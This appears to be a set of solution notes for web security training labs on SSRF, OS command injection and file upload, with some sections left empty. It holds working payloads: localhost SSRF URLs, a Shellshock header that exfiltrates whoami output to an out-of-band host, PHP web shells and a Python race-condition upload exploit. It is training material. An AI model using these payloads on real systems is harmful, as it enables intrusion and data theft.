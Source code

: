 ## Server-side request forgery (SSRF)
1. <b>Basic SSRF against the local server</b> - Go to one product from the home page and press `check stock`(intercept it with burp) send it to repeater and you will find a parameter named `stockApi` which has a url. In this url if we put `http://localhost/admin` and send the request we will see the admin panel. To solve this lab we have to put in `stockApi` param `http://localhost/admin/delete?username=carlos`
2. <b>Basic SSRF against another back-end system</b> - 
3. <b>SSRF with blacklist-based input filter</b> - 
4. <b>SSRF with filter bypass via open redirection vulnerability</b> - 
5. <b>Blind SSRF with out-of-band detection</b> - Go to home page and press one of products while you intercepting the requests and you will see the `referer` header. After that go to `burp collaborator` and change the `referer` value to http://xxxxx.collaboratorburp.net and the lab is solved. 
6. <b>SSRF with whitelist-based input filter</b> - For this lab we have to get the access to admin panel and delete carlos account but its not the same like the old times. For the solution the first step is to go in one product and press `check stock` and pass this url into to `api parameter` `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`
7. <b>Blind SSRF with Shellshock exploitation</b> - Solution for tihs labs is combination of the `Blind SSRF with out-of-band detection` and the `SSRF network pivoting`. First of all we have to intercept a requests when we send a get requests for a product and send it to `intruder` after that we can see `User-Agend` & `Referer` headers so far so good.
For exploitation part:<br>
<b>User-Agent header</b> - Delete the old string and paste this payload: <br>
`() { :; }; /usr/bin/nslookup $(whoami).4diew0hehvzuachcyn7t9rpax13s3gs.burpcollaborator.net` <br>
<b>Referer header</b> - Delete the old strings and put the ip `http://192.168.0.X:8080/` but and the X letter we have to put the $ symbols and in payload tab we have to choose `numbers` starting from 1 to 255 with step 1 and start the attack. After a few requests we can see our results in burpcollaborator.

## OS command injection
1. <b>OS command injection, simple case</b> - Go to `https://xxxx.web-security-academy.net/product?productId=x` and start intercepting from burp while pressing the check stock button. Send it to repeater and chain the `whoami` command at the end of productId=x `productId=333;whoami&storeId=1`
2. <b>Blind OS command injection with time delays</b> - 


## File upload vulnerabilities
1. <b>Remote code execution via web shell upload</b> - Try to upload just a php script with .php extension
2. <b>Web shell upload via Content-Type restriction bypass</b> - Try to change <b>content-type</b> from x-php to <b>image/png</b>
3. <b>Web shell upload via path traversal</b> - Change the <b>filename</b> from burpsuite intercept to <b>..%2fget_flag.php</b> and get the flag to /files/avatars/../get_flag.php
4. <b>Web shell upload via extension blacklist bypass</b> - Change the filename from <b>.php</b> extension to <b>.phtlm</b> extension and upload it
5. <b>Web shell upload via obfuscated file extension</b> - Intercept upload request and change the filename with extension <b>.php%00.png</b> - <b>Null byte technique</b>
6. <b>Remote code execution via polyglot web shell upload</b> - For this lab we have to use <b>exiftool</b> and one random .jpg or .png image. The exploitation part `exiftool -comment="<?php system('badstuff');?>" image_name.png or .jpg -o get_flag.php` after that a php file will created with get_flag.php name upload it and redirect into it to get the flag.
7. <b>Web shell upload via race condition</b> - At the lab description we can find a <b>hint</b> which has inside the source code of upload functionality.
Lets explain the code
```php
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
"As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. "
<br>
So I create a exploit with python multithreading,requests modules just to grab the flag.
```python
import requests
import threading

def upload_exploit():
	burp0_url = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/my-account/avatar"
	burp0_cookies = {"session": "sbjdev7ZM9sCuhQ2irsKrh0SjX7wddRT"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net/my-account", "Content-Type": "multipart/form-data; boundary=---------------------------35393652352872705425704695024", "Origin": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}
	burp0_data = "-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"get_flag.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php system('cat /home/carlos/secret')?>\n\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"user\"\r\n\r\nwiener\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"csrf\"\r\n\r\nHEhkjls5YL1vQsQRNl2qJrpSAqeAsGMK\r\n-----------------------------35393652352872705425704695024--\r\n"
	requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


def get_flag():
	endpoint = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/files/avatars/get_flag.php"
	r=requests.get(endpoint)
	print(r.text)
	

t1 = threading.Thread(target=upload_exploit, name='t1')
t2 = threading.Thread(target=get_flag, name='t2')  
  
t1.start()
t2.start()
  
t1.join()
t2.join()

```

 [More tricks about file upload vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)
